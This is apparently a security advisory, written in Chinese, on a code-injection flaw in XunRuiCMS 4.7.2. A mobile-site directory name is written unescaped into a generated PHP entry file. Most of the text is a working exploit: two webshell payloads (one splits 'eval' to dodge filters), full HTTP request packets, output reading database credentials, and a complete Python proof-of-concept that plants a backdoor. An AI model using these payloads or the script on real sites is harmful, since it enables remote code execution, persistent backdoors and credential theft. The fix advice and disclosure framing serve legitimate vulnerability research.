


# 迅睿CMS / XunRuiPHP 4.7.2 —— 匿名可达的远程代码执行（手机站目录名代码注入）

- **产品**：迅睿CMS（XunRuiPHP）
- **版本**：4.7.2
- **CWE**：CWE-94（代码生成控制不当）
- **影响**：以 Web 服务用户身份远程执行任意代码
- **权限要求**：**注入的代码可被匿名访问**——payload 在生成入口文件时即执行，落地后的 `<dir>/index.php` 之后无需任何认证即可响应任意 HTTP 请求；仅那次配置写入使用后台会话
- **攻击链**：**一次**后台请求即可——保存手机站配置（`data[dirname]`）→ CMS 生成 `<dirname>/index.php` 到 Web 根目录 → 注入的 PHP 立即可被**匿名**访问并执行
- **涉及代码**：手机站配置保存 → 入口文件生成时用裸 `str_replace` 把攻击者可控数据写进 PHP 字符串字面量（见 `Site::update_webpath()`）；生成文件落在 Web 根目录
- **测试环境**：迅睿CMS 4.7.2 · PHP 7.4.33 · Apache 2.4 (Debian) · MySQL 8.0.46 · Web 根目录 `/var/www/html`

## 概述

手机站目录名（`data[dirname]`）同时被用于两个危险位置：**路径片段**与**写进生成 PHP 源码的值**，且未做转义。一个能闭合字符串字面量的 dirname 即可把任意 PHP 注入到 CMS 生成、并写入 Web 根目录的入口文件中。payload **提交即落地、落地即可访问执行**——不需要任务队列、通知、SMTP 或任何额外业务动作，而落地后的入口文件可被**匿名**请求反复调用，构成持久后门；这也是本次评估中最短的代码执行路径。

## 根因

手机站保存逻辑接受未校验的目录名，并在两处复用它：

1. 作为**路径**——生成的入口文件写入 `<dir>` 之下，因此取值不能含 `/`（PoC 通过在 PHP 内部拼路径绕开）；
2. 作为**源码**——取值被裸 `str_replace` 拼进 PHP 字符串字面量，一个 `'` 就能闭合字面量并追加语句。

payload 形态：`<dir>/x'); <PHP 语句>; #/..`

- `x');` 闭合 `file_put_contents('<dir>/x', '` 并结束该调用；
- `<PHP 语句>` 在生成入口文件时被执行；
- `#/..` 注释掉生成行的剩余部分，并让文件落在干净目录中。

已验证两个变体：

| 变体 | payload（`data[dirname]`） | 结果 |
|---|---|---|
| A —— 反引号 shell | `zzmob/x');echo \`$_GET[0]\`;#/..` | `zzmob/index.php` 执行系统命令：`GET /zzmob/index.php?0=id` |
| B —— eval shell | `zzmobe3/x');file_put_contents($_SERVER['DOCUMENT_ROOT'].DIRECTORY_SEPARATOR.'zz_eval3.php',chr(60).'?php ev'.'al'.chr(40).'$_GET[0]'.chr(41).';');#/..` | 落一个独立 PHP shell（`/zz_eval3.php?0=<php>`），且不受 `disable_functions` 影响 |

变体 B 遵守 CI4 的过滤规则：不出现字面量 `eval(`（拆成 `'ev'.'al'.chr(40)`）、不含 `<`/`>`/`;`，且 payload 内不含 `/`（路径用 `DIRECTORY_SEPARATOR` 拼接）。

## 验证过程（PoC）

后台入口：后台通过安装时生成的**随机命名入口文件**访问（内容为 `define('IS_ADMIN', TRUE); require('index.php');`）；本靶场为 `admin82b8542a912e.php`，默认的 `admin.php` 返回 `404`。下文所有后台请求均写作 `/<entry>.php`。

```
POST /<entry>.php?s=cms&c=site_mobile&m=index HTTP/1.1
Host: <target>
Cookie: <后台会话>
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

data[mode]=1&data[dirname]=zzmob/x%27)%3Becho+%60%24_GET%5B0%5D%60%3B%23%2F..
-> {"code":1,"msg":"操作成功"}

GET /zzmob/index.php?0=id HTTP/1.1
Host: <target>
-> HTTP/1.1 200 OK
   uid=1000(www-data) gid=1000(www-data) groups=1000(www-data)
```

变体 B（完整请求包）：

```
POST /<entry>.php?s=cms&c=site_mobile&m=index HTTP/1.1
Host: <target>
Cookie: <后台会话>
Content-Type: application/x-www-form-urlencoded
Content-Length: 257

data[mode]=1&data[dirname]=zzmobe3/x');file_put_contents($_SERVER['DOCUMENT_ROOT'].DIRECTORY_SEPARATOR.'zz_eval3.php',chr(60).'?php ev'.'al'.chr(40).'$_GET[0]'.chr(41).';');#/..
-> {"code":1,"msg":"操作成功"}

GET /zz_eval3.php?0=echo%20PHP_VERSION; HTTP/1.1
-> HTTP/1.1 200 OK   7.4.33
GET /zz_eval3.php?0=echo%20file_get_contents('/var/www/html/config/database.php');
-> 'hostname'=>'db','username'=>'xunrui','password'=>'XunRui_2026','database'=>'xunruicms'
```

关于入口文件的响应：CMS 会解析配置的手机站 webpath 并 **include** 生成的入口文件，因此即使 `/zzmobe3/index.php` 的 HTTP 响应是 `404`，注入代码同样执行（已实测）。直接通过 HTTP 请求执行时，响应里还会带上被注入那行的证据：

```
<br /><b>Warning</b>: Cannot modify header information - headers already sent by
(output started at /var/www/html/zzmob/index.php:8) in <b>/var/www/html/index.php</b> on line <b>14</b><br />
```

`2.py` 在靶场的完整实测（使用预先获取的后台会话 Cookie 与随机入口文件名，不做交互式登录，因此不涉及登录验证码；除写入 payload 与还原手机站配置外不修改其他数据）：

```
entry          HTTP 200
write-mobile   HTTP 200 {"code":1,"msg":"操作成功","data":[]}
uid=1000(www-data) gid=1000(www-data) groups=1000(www-data)
```

## PoC 脚本（`2.py`）

```
python 2.py http://<target> "<cookie>" admin82b8542a912e.php
```

```python
import sys, re, requests

b = sys.argv[1].rstrip("/")
ck = sys.argv[2]
e = sys.argv[3] if len(sys.argv) > 3 else "admin.php"
s = requests.Session()
s.headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 Chrome/120"
s.headers["Cookie"] = ck
a = b + "/" + e
p = "zzmob/x');echo `$_GET[0]`;#/.."

r = s.get(a, allow_redirects=False)
print("entry          HTTP", r.status_code, flush=True)
if r.status_code == 404:
    print("admin entry not found: /%s" % e)
    sys.exit(1)

r = s.get(a + "?s=cms&c=site_mobile&m=index", allow_redirects=False)
print("session        HTTP", r.status_code, flush=True)
if r.status_code != 200:
    print("invalid session: cookie expired or User-Agent mismatch")
    sys.exit(1)

h = s.get(a + "?s=cms&c=site_mobile&m=index").text
form = dict(re.findall(r'name="([^"]+)"[^>]*?value="([^"]*)"', h))
mm = re.search(r'name="data\[mode\]"[^>]*value="([^"]*)"[^>]*checked', h)
omode, odir = (mm.group(1) if mm else "0"), form.get("data[dirname]", "")

r = s.post(a + "?s=cms&c=site_mobile&m=index", data={"data[mode]": "1", "data[dirname]": p})
print("write-mobile   HTTP", r.status_code, r.text[:110].replace("\n", " "), flush=True)
print(s.get(b + "/zzmob/index.php?0=id").text[:200])

s.post(a + "?s=cms&c=site_mobile&m=index", data={"data[mode]": omode, "data[dirname]": odir})
print("restored")
```

操作提示：后台会话与 User-Agent 绑定（且改密会让旧会话失效），请使用你正在使用的客户端的 Cookie；入口名写错时 Apache 返回 `404`，什么都不会发生。脚本会在覆盖前记录当前手机站设置，拿到 shell 后自动**还原** `data[mode]`/`data[dirname]`（生成的目录保留不删）。





## 与数据库驱动无关

`dirname` 经查询构造器入库，随后由 PHP 写入生成的入口文件，payload 完全在 PHP 侧，适用于所有受支持驱动（`MySQLi` / `SQLite3` / `Postgre` / `SQLSRV`）。

## 影响

仅需**一次**已认证的后台请求即可获得 Web 服务用户权限的代码执行，且不触碰任何原有业务数据。落地的文件是持久后门，并可读取应用配置（含 `config/database.php` 中明文数据库凭据）。

## 修复建议

1. 严格校验 `dirname`（如 `^[A-Za-z0-9_\-]+$`），拒绝 `/`、`..`、引号与控制字符；在未经规范化前不得把它当作路径片段。
2. 生成入口文件时使用 `var_export($value)`（或会转义数据的模板引擎），不要用裸 `str_replace` 写入 PHP 字符串字面量。
3. 把写入目标限制在 Web 根目录下已存在的、预先建好的目录内，并在 `file_put_contents()` 之前校验解析后的路径仍位于该目录内。
4. 手机站配置中的目录名/域名/路径类字段一律视为不可信输入，`Site::update_webpath()` 需做同样处理。
5. 最小化 Web 服务用户权限，并监控 Web 根目录下新增的 PHP 文件。

## 参考

- 迅睿CMS：https://www.xunruicms.com/
- CWE-94：https://cwe.mitre.org/data/definitions/94.html

> 复现均在已授权的自建靶场环境完成，仅用于漏洞披露与修复。
